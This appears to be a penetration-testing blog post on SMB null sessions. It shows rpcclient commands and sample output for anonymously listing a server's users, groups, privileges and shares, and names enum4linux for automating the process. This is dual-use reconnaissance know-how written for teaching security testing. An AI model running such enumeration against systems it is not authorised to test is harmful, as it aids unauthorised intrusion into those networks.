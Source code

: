 ```yaml
---
title: SMB null session
tags:
- smb
- rpc
---
```

While performing a pentest, if you discover a server running the [SMB protocol](http://en.wikipedia.org/wiki/Server_Message_Block "Server Message Block"){:class="flashlink" target="_blank"} 
you can test if it's vulnerable to anonymous connection (also called null session) and then glean a lot of informations with 
a [RPC](http://en.wikipedia.org/wiki/Remote_procedure_call "Remote Procedure Call"){:class="flashlink" target="_blank"} client. 
Nmap is usefull to locate that kind of service:

[![smb null session](/images/smb-null-session-1.png)](/images/smb-null-session.png)

Now you can try to interact with the remote machine with the help of [rpcclient](https://www.samba.org/samba/docs/man/manpages/rpcclient.1.html "Man rpcclient"). 
To perform a null session you have to specify an empty user and an empty password. 
If the host is not vulnerable, you will get the following error:

```
$ rpcclient -U "" 192.168.1.31
Enter 's password:
could not initialise lsa pipe. Error was NT_STATUS_ACCESS_DENIED
could not obtain sid for domain WORKGROUP
error: NT_STATUS_ACCESS_DENIED
```

But if the host is vulnerable you will immediatly get a prompt:

```
$ rpcclient -U "" 192.168.1.18
Enter 's password:
rpcclient $>
```

<!--more-->

If you connect successfully, you can use help to see the list of available commands (anyway tab works for autocompletion). 
Below some examples of the most used.

Basic server infos:

```
rpcclient $> srvinfo
  LUIGI          Wk Sv PrQ Unx NT SNT nintendo server
  platform_id     :  500
  os version      :  4.9
  server type     :  0x809a03
```

Users enumeration:

```
rpcclient $> enumdomusers
user:[admin] rid:[0x3ec]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[lisa] rid:[0x3f1]
user:[mark] rid:[0x3f2]</pre>
```

Groups enumeration:

```
rpcclient $> enumalsgroups builtin
group:[Administrators] rid:[0x220]
group:[Backup Operators] rid:[0x227]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Users] rid:[0x221]
```

Privileges of the connected user:

```
rpcclient $> enumprivs
found 8 privileges

SeMachineAccountPrivilege 		0:6 (0x0:0x6)
SeTakeOwnershipPrivilege 		0:9 (0x0:0x9)
SeBackupPrivilege 		0:17 (0x0:0x11)
SeRestorePrivilege 		0:18 (0x0:0x12)
SeRemoteShutdownPrivilege 		0:24 (0x0:0x18)
SePrintOperatorPrivilege 		0:4097 (0x0:0x1001)
SeAddUsersPrivilege 		0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege 		0:4099 (0x0:0x1003)
```

Shares enumeration:

```
rpcclient $> netshareenum
netname: IPC$
  remark:	IPC Service
  path:	C:\tmp
  password:
netname: Lisa Share
  remark:	Lisa Docs
  path:	C:\home\lisa\files
  password:
```

[enum4linux](https://code.google.com/p/phillips321/){:class="flashlink" target="_blank"} is the perfect tool to automate null session attacks. 
According to the documentation : "[...] this script is basically just a wrapper around rpcclient, net, nmblookup and smbclient [...]".
